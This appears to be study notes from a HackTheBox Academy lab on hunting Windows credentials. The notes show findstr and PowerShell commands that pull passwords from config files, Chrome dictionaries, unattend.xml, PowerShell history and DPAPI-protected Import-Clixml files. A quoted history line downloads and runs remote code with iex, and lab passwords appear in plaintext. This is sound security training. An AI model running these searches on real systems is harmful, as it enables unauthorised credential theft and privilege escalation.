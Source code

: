 # Credential Hunting

## Application Configuration Files

```
PS C:\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

For the default IIS website, this could be located at C:\inetpub\wwwroot\web.config

## Dictionary Files

Chrome Dictionary Files

```
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
Password1234!
```

## Unattended Installation Files

unattend.xml

```
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="specialize">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <AutoLogon>
                <Password>
                    <Value>local_4dmin_p@ss</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>2</LogonCount>
                <Username>Administrator</Username>
            </AutoLogon>
            <ComputerName>*</ComputerName>
        </component>
    </settings>
```

## PowerShell History File

Starting with Powershell 5.0 in Windows 10, PowerShell stores command history to the file:
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt.

1) Confirming PowerShell History Save Path

```
(Get-PSReadLineOption).HistorySavePath

C:\Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

2) Reading PowerShell History File

```
gc (Get-PSReadLineOption).HistorySavePath

dir
cd Temp
md backups
cp c:\inetpub\wwwroot\* .\backups\
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://www.powershellgallery.com/packages/MrAToolbox/1.0.1/Content/Get-IISSite.ps1'))
. .\Get-IISsite.ps1
Get-IISsite -Server WEB02 -web "Default Web Site"
wevtutil qe Application "/q:*[Application [(EventID=3005)]]" /f:text /rd:true /u:WEB02\administrator /p:5erv3rAdmin! /r:WEB02
```

OR

```
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

dir
cd Temp
md backups
cp c:\inetpub\wwwroot\* .\backups\
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://www.powershellgallery.com/packages/MrAToolbox/1.0.1/Content/Get-IISSite.ps1'))
. .\Get-IISsite.ps1
Get-IISsite -Server WEB02 -web "Default Web Site"
wevtutil qe Application "/q:*[Application [(EventID=3005)]]" /f:text /rd:true /u:WEB02\administrator /p:5erv3rAdmin! /r:WEB02
```

## PowerShell Credentials

Decrypting PowerShell Credentials :

The credentials are protected using https://en.wikipedia.org/wiki/Data_Protection_API

It typically means they can only be decrypted by the same user on the same computer they were created on.

```
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
bob

$credential.GetNetworkCredential().password
Str0ng3ncryptedP@ss!
```

## LAB

xfreerdp /v:10.129.43.44 /u:htb-student /p:HTB_@cademy_stdnt!

findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

--> Lot of AppData file

PS C:\Users\htb-student> gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

Password1234!

findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

type 'Public\Documents\settings.xml'

cd c:\Users

  <proxies>
    <proxy>
      <id>myproxy</id>
      <active>true</active>
      <protocol>http</protocol>
      <host>proxy.inlanefreight.local</host>
      <port>8080</port>
      <username>proxyadmin</username>
      <password>Pr0xyadm1nPassw0rd!</password>
      <nonProxyHosts>*.google.com|ibiblio.org</nonProxyHosts>
    </proxy>
  </proxies>

xfreerdp /v:10.129.43.44 /u:bob /p:Str0ng3ncryptedP@ss!

PS C:\Scripts> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\Scripts> $credential.GetNetworkCredential().username
bob
PS C:\Scripts> $credential.GetNetworkCredential().password
Str0ng3ncryptedP@ss!

flag.txt
3ncryt10n_w0nt_4llw@ys_s@v3_y0u

